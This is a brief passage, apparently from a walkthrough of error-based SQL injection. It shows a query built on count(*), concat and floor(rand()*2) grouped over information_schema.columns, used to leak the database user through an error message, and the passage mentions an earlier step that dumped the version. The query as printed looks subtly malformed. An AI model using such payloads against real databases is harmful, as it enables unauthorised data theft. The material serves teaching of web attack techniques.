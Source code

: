 And it dumps the version name.

![831.jpg](./img/831.jpg)

Let us try to dump a user:

`select count(*),concat(0x3a,0x3a(select user()),0x3a,0x3a, floor (rand()*2)) a from information_schema.columns group by a;`

![84.png](./img/84.png)

After using the query a few times it generates an sql error message with username:

![86.jpg](./img/86.jpg)
